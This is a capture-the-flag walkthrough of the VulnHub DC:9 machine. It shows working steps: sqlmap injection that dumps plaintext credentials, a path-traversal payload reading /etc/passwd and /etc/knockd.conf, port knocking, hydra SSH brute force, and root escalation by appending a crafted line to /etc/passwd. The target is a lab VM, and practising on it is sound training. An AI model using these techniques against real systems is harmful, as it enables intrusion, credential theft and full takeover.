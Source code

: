 # DC:9 CTF Walkthrough (Vulnhub) 

###### <p align="center"> *This is official repository maintained by me*</center> </p>
###### <p align="center"> *[yigitdrbk](https://www.instagram.com/yigitdrbk/) *</center> </p>

DC:9 is a CTF created by DCAU. You can find the technical information about this CTF on the VulnHub page. First of all, make sure to download and install the correct OVA file from VulnHub. (https://download.vulnhub.com/dc/DC-9.zip)

This is a normal difficulty CTF if you come this far. But it’s might be hard to find vulnerability.
## 1 - Reconnaissance

I started with classic rustscan , nmap and dirseach. I found out ssh port is closed. And found no vulnerability with script vulnerability scanning.

```bash
rustscan <machine_ip>
nmap -PN -sS -sC --script vuln -p 22,80 <machine_ip> -oN finalscan

dirsearch -u <machine_ip>
```

I manually checked the webpage. There was users table , manage page , search page and home page.

![DC9](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*_xCq1Sd2r4HF8hiwzTcE3g.png "DC9")

I found some pages with directory search. When I visit this directories there was one interesting one. The welcome.php website says you are logged in as admin.

![DC9](https://miro.medium.com/v2/resize:fit:828/format:webp/1*Ohrk_o635aSU007LXi0hbw.png "DC9")

But I was not an administrator yet, so I couldn’t copy the admin cookie directly. Instead, I used Burp Suite to capture it. If you don’t have Burp Suite, you can achieve the same with a basic curl command to copy the cookie.

I then focused on exploiting the manage and search pages. I saved the requests for these pages to files and attempted to run SQLMap on them.

```bash
sqlmap -r search.txt 
sqlmap -r manage.txt
```

I found out search field is vulnerable to sqlmap. Dc author makes machines to vulnerable on sqlmap somehow. I quickly exploit it.

## 2- Sqlmap

```bash
sqlmap -r search.txt --level=5 --dbs
(this give me 3 dbs users , staffs , information_schema)

sqlmap -r search.txt --level=5 -D users --tables
(this give me UserDetails table)

sqlmap -r search.txt --level=5 -D users -T UserDetails --dump
(this give me 
+----+------------+---------------+---------------------+-----------+-----------+
| id | lastname   | password      | reg_date            | username  | firstname |
+----+------------+---------------+---------------------+-----------+-----------+
| 1  | Moe        | 3kfs86sfd     | 2019-12-29 16:58:26 | marym     | Mary      |
| 2  | Dooley     | 468sfdfsd2    | 2019-12-29 16:58:26 | julied    | Julie     |
| 3  | Flintstone | 4sfd87sfd1    | 2019-12-29 16:58:26 | fredf     | Fred      |
| 4  | Rubble     | RocksOff      | 2019-12-29 16:58:26 | barneyr   | Barney    |
| 5  | Cat        | TC&TheBoyz    | 2019-12-29 16:58:26 | tomc      | Tom       |
| 6  | Mouse      | B8m#48sd      | 2019-12-29 16:58:26 | jerrym    | Jerry     |
| 7  | Flintstone | Pebbles       | 2019-12-29 16:58:26 | wilmaf    | Wilma     |
| 8  | Rubble     | BamBam01      | 2019-12-29 16:58:26 | bettyr    | Betty     |
| 9  | Bing       | UrAG0D!       | 2019-12-29 16:58:26 | chandlerb | Chandler  |
| 10 | Tribbiani  | Passw0rd      | 2019-12-29 16:58:26 | joeyt     | Joey      |
| 11 | Green      | yN72#dsd      | 2019-12-29 16:58:26 | rachelg   | Rachel    |
| 12 | Geller     | ILoveRachel   | 2019-12-29 16:58:26 | rossg     | Ross      |
| 13 | Geller     | 3248dsds7s    | 2019-12-29 16:58:26 | monicag   | Monica    |
| 14 | Buffay     | smellycats    | 2019-12-29 16:58:26 | phoebeb   | Phoebe    |
| 15 | McScoots   | YR3BVxxxw87   | 2019-12-29 16:58:26 | scoots    | Scooter   |
| 16 | Trump      | Ilovepeepee   | 2019-12-29 16:58:26 | janitor   | Donald    |
| 17 | Morrison   | Hawaii-Five-0 | 2019-12-29 16:58:28 | janitor2  | Scott     |
+----+------------+---------------+---------------------+-----------+-----------+)
```

Now I have usernames and passwords. I created `users.txt` and `passwords.txt` files to store them. However, since the SSH service is closed, I couldn't use these credentials directly.

I attempted a path traversal attack on the URLs, starting with the search page, but I couldn’t get it to work. Next, I tried on the `manage.php` file and successfully accessed the `/etc/passwd` file.

Normally, you could use `wfuzz` to discover the file parameter, but in this case, it wasn’t as predictable.

```bash
http://10.0.2.18/manage.php?file=../../../../etc/passwd
```

Then I have reached the passwd file.

For a long time I stucked there. I couldn’t figure out how can I open the ssh port and exoploit it.

## 3- Hard part (port knocking)

I looked up how others solved this problem on this machine and found that the answer was port knocking. There’s a file located at `/etc/knockd.conf`, which contains the sequence values. This sequence lists three ports; if we "knock" on these ports in the correct order, port 22 will open.

I accessed the `/etc/knockd.conf` file by visiting `manage.php?file=../../../../etc/knockd.conf`, and it returned the sequence. So, I followed the sequence to unlock port 22.

```bash
[options] UseSyslog [openSSH] sequence = 7469,8475,9842 seq_timeout = 25 command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn [closeSSH] sequence = 9842,8475,7469 seq_timeout = 25 command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn
```

The sequence part is important. Because we will use the knock tool on kali linux. You can download it github also.

```bash
knock <my_ip> 7469 8475 9842
```

Now you can control it with nmap. The 22 port is open. So we can connect it with users and passwords list.

## 4- SSH part

I used the users.txt and passwords.txt like that to brute force ssh.

```bash
hydra -L users.txt -P passwords.txt ssh://<machine_IP>
```

I found 3 users credentials.

After that, I logged in with each user but didn’t find anything important. However, the user “janitor” had a hidden directory named `secrets-for-putin`, which contained a password file with four passwords. I added these four passwords to `passwords.txt` and started the attack again. This time, I discovered a fourth user: "fredf."

![DC9](https://miro.medium.com/v2/resize:fit:828/format:webp/1*TdIRggUOqEq-t2XxGn8GZA.png "DC9")

I logged in with fredf.

## 5- Privilege Escalation

I tried sudo -l with fredf user. He can run the next command :

`/opt/devstuff/dist/test/test`

In devstuff directory there is a simple python script.

```bash
#!/usr/bin/python

import sys

if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)

else :
    f = open(sys.argv[1], "r")
    output = (f.read())

    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()
```

You give 2 files while executing this file and it simply appends first to second’s last line. So I read the /etc/passwd again.

I need to create a user with admin privileges.

```bash
root:x:0:0:root:/root:/bin/bash
```
I need to change the root part to name whatever I want. And need to change the x part to hashed password. Like the DC-4 I run the command and create a hash to my password.

```bash
openssl passwd -1
```

Now I have hash and I can save it to a file then append it to /etc/passwd so I can be a user

```bash
cd /tmp
echo 'yigitxd:$1$bvh55em2$Hzgmbcbgo/0pmsu5193pz.:0:0:root:/root:/bin/bash' > xd
chmod 777 xd
sudo /opt/devstuff/dist/test/test xd /etc/passwd
```

Now I can switch to user yigit. And now im root.

![DC9](https://miro.medium.com/v2/resize:fit:828/format:webp/1*9T5eTpgXC7_RtVLd3t9HUA.png "DC9")


Developer / Author: [yigitdrbk](https://www.instagram.com/yigitdrbk/)